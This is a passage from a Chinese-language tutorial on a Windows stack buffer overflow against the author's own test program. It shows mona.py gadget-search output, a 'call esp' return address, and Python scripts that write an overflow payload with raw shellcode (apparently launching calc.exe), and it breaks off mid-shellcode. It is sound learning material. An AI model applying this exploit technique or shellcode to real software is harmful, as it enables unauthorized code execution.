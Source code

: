 运行结果如下：

```shell
    - Search complete, processing results
[+] Preparing output file 'jmp.txt'
    - (Re)setting logfile jmp.txt
[+] Writing results to jmp.txt
    - Number of pointers of type 'call esp' : 1 
    - Number of pointers of type 'push esp # ret ' : 4 
[+] Results : 
0x77bece33 |   0x77bece33 (b+0x0010ce33)  : call esp |  {PAGE_EXECUTE_READ} [ntdll.dll] ASLR: True, Rebase: True, SafeSEH: False, CFG: True, OS: True, v10.0.19041.3570 (ntdll.dll), 0x4140
0x77afb318 |   0x77afb318 (b+0x0001b318)  : push esp # ret  |  {PAGE_EXECUTE_READ} [ntdll.dll] ASLR: True, Rebase: True, SafeSEH: False, CFG: True, OS: True, v10.0.19041.3570 (ntdll.dll), 0x4140
0x77afc712 |   0x77afc712 (b+0x0001c712)  : push esp # ret  |  {PAGE_EXECUTE_READ} [ntdll.dll] ASLR: True, Rebase: True, SafeSEH: False, CFG: True, OS: True, v10.0.19041.3570 (ntdll.dll), 0x4140
0x77bbd1f8 |   0x77bbd1f8 (b+0x000dd1f8)  : push esp # ret  |  {PAGE_EXECUTE_READ} [ntdll.dll] ASLR: True, Rebase: True, SafeSEH: False, CFG: True, OS: True, v10.0.19041.3570 (ntdll.dll), 0x4140
0x77bbd250 |   0x77bbd250 (b+0x000dd250)  : push esp # ret  |  {PAGE_EXECUTE_READ} [ntdll.dll] ASLR: True, Rebase: True, SafeSEH: False, CFG: True, OS: True, v10.0.19041.3570 (ntdll.dll), 0x4140
    Found a total of 5 pointers

[+] This mona.py action took 0:00:00.759000
```

`mona`没有找到 `jmp ESP`指令，但找到了功能基本一致的`call ESP`和`push esp; ret`指令（这两种指令执行后，ESP的值不同，不过对我们影响不大），都能够将执行流引导至`shellcode`。

我们使用上面找的`call esp`指令，其地址为 `0x77bece33`（系统重启前有效，详情见 [ASLR in Windows](https://czxvan.github.io/2023/10/22/ASLR-in-Windows/)）

### 编写攻击脚本

编写python脚本 `exp1.py`，修改`name.dat`中的内容

```python
# python3
with open('D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat', 'wb') as f:
    ret_eip = b'\x33\xce\xbe\x77'	# 小端序
    shellcode = b'\xcc'	# 调试模式下会在此中断
    name = b'a'*32 + b'b'*4 + ret_eip + shellcode
    f.write(name)
```

回到visual studio，release模式下进行调试，main返回后，出现以下弹窗：

![0xcc](../pic/Exploitme/0xcc.png)

说明测试成功。

下面将 “\xcc” 替换为真正的 `shellcode`：

```python
# python3
with open('D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat', 'wb') as f:
    ret_eip = b'\x33\xce\xbe\x77'	# 小端序
    shellcode = (b"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
        b"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
        b"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
        b"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
        b"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
        b"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
        b"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
        b"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
        b"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
        b"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
        b"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
        b"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
```